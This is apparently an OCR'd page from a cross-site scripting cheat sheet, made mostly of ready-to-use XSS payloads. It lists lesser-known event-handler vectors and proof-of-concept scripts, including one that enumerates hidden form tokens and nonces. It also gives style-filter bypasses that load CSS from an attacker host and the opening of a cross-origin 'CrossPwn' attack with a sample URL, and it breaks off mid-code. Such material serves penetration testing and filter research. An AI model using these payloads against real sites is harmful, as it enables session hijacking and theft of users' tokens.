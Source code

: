 <body onhelp=alert(1)>press F1! 
```



## Less Known XSS Vectors
A collection of less known XSS vectors.
```
<marquee onstart=alert(1)>
<audio src onloadstart=alert(1)>
<video onloadstart=alert(1)><source>
<video ontimeupdate=alert(1) controls src=//brutelogic.com.br/x.mp4>
<input autofocus onblur=alert(1)>
<keygen autofocus onfocus=alert(1)>
<form onsubmit=alert(1)><input type=submit>
<select onchange=alert(1)><option>1<option>2
<menu id=x contextmenu=x onshow=alert(1)>right click me!
<object onerror=alert(1)>
```


## Alternative PoC - Shake Your Body
Use to shake all the elements of the page as a good visualization of the vulnerability.
setInterval(x=>{b=document.body.style,b.marginTop=(b.marginTop=='4px')?'-4px':'4px';},5)
Alternative PoC - Brutality
Use to display an image of Mortal Kombat’s Sub-Zero character along with a `brutality` game sound.
```
d=document,i=d.createElement('img');i.src='//brutelogic.com.br/brutality.jpg';
d.body.insertBefore(i,d.body.firstChild);new(Audio)('//brutelogic.com.br/brutality.mp3').play();
```



## Alternative PoC - Alert Hidden Values
Use to prove that all hidden HTML values like tokens and nonces in target page can be stolen.
```
f=document.forms;for(i=0;i<f.length;i++){e=f[i].elements;for(n in e){if(e[n].type=='hidden')
{alert(e[n].name+': '+e[n].value)}}}
```


## Improved Likelihood of Mouse Events
Use to create a larger area for mouse events to trigger. Add the following (as an attribute) 
inside any XSS vector that makes use of mouse events like onmouseover, onclick, etc.
style=position:fixed;top:0;left:0;font-size:999px
Alternative to Style Tag 
Use when `style` keyword is blocked either for inline and tag name. Provide HOST and FILE
for CSS or just the CSS alone in 2
nd
 vector.
```
<link rel=stylesheet href=//HOST/FILE>
<link rel=stylesheet href=data:text/css,CSS>
```


## Cross-Origin Script - CrossPwn 
Save content below as .html file and use as following: 
`http://facebook.com.localhost/crosspwn.html?target=//brutelogic.com.br/tests/
status.html&msg=<script>alert(document.domain)`
Where `facebook.com` is an allowed origin and `localhost` is attacking domain, 
`//brutelogic.com.br/tests/status.html` is target page and `<script>alert(document.domain)`
is message sent (payload).
Code
```
<!DOCTYPE html>